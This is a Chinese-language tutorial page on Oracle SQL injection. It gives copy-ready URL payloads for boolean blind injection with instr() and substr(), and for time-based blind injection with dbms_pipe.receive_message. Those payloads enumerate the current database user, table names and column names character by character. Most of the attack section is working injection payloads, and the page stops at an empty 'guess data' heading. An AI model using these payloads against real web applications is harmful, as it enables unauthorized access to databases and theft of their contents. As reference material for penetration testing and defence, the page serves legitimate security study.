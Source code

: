 **instr 函数的使用，从一个字符串中查找指定子串的位置**

```sql
select instr('123456789','12') position from dual;
```

![image-20220803161015829](img/image-20220803161015829.png)

可以使用该函数按位爆破，该函数返回是从1开始

```sql
?id=1 and (instr((select user from dual),'S'))=1 --+
?id=1 and (instr((select user from dual),'SY'))=1 --+
?id=1 and (instr((select user from dual),'SYS'))=1 --+
```

## substr()

这个就和mysql 基本一致

```sql
# 猜解数据长度
?id=1 and (select length(user) from dual)=3 --+

# ASCII按位爆破
?id=1 and (select ascii(substr(user,1,1))from dual)=65 --+
```

# 时间盲注

## dbms_pipe.receive_message ()

`DBMS_LOCK.SLEEP() `函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。

首先，不能直接将该函数注入子查询中，因为 Oracle 不支持堆叠查询 (stacked query)。其次，只有数据库管理员才能使用 DBMS_LOCK 包。

在 Oracle PL/SQL 中有一种更好的办法，可以使用下面的指令以内联方式注入延迟：

`dbms_pipe.receive_message('RDS', 10)`

`DBMS_PIPE.RECEIVE_MESSAGE()` 函数将为从 RDS 管道返回的数据等待 10 秒。默认情况下，允许以 public 权限执行该包。`DBMS_LOCK.SLEEP() `与之相反，它是一个可以用在 SQL 语句中的函数。

```sql
# 查看是否可以使用 dbms_pipe.receive_message () 函数进行延时注入
?id=1 and 1=(dbms_pipe.receive_message('RDS',5)) --+

# 猜解当前用户
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(user as varchar(4000)),chr(32)) from dual),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解表名
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(table_name as varchar(4000)),chr(32)) from all_tables where rownum=1 and owner='TEST'),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解字段
?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(column_name as varchar(4000)),chr(32)) from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+

# 猜解数据
```